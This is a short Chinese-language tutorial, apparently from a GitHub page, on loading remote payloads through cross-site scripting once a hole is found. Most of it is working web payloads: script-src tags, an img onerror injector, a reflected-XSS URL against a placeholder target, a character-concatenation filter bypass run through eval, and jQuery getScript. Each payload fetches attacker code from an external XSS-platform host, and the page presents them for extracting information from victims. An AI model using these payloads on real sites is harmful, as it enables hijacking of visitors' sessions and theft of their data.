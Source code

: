 当我们在测试xss漏洞的时候，一般都是用h1 alert 简单的html标签 样式是否改变 是否弹出框，来检验是否存在xss漏洞。

当在利用这个xss漏洞获取信息的时候，就要加载payload，加载payload的方法多种多样，以下是常用的加载技巧。

有一些 xss平台已经有一些通用的方法。直接拿到用就可以了。

![img](../acess/wpxfdfdfs1.jpg) 

 

## 1、标准script加载

```php
<script src=http://www.xsstools.com/amER></script>
<script src=//www.xsstools.com/amER></script> 
```

## 2、img 创建script加载

```php
<img src=x onerror=document.body.appendChild(document.createElement('script')).src='//www.xsstools.com/amER'>
```

反射性

```
http://target_sys.com/xss/xss01.php?name=%3Cimg%20src=x%20onerror=document.body.appendChild(document.createElement(%27script%27)).src=%27//www.xsstools.com/amER%27%3E 
```

## 3、字符并接

这种一般是输入的字符有限制的时候使用

```php
<script>z='document.'</script>
<script>z=z+'write("'</script>
<script>z=z+'<script'</script>
<script>z=z+' src=ht'</script>
<script>z=z+'tp://www.'</script>
<script>z=z+'xsstools'</script>
<script>z=z+'.com/a'</script>
<script>z=z+'mER></sc'</script>
<script>z=z+'ript>")'</script>
<script>eval(z)</script>
```

## 4、jquery加载

```html
<script src="http://code.jquery.com/jquery-1.9.1.min.js"></script>
```



```php
<script>$.getScript("//www.xsstools.com/amER");</script>
```

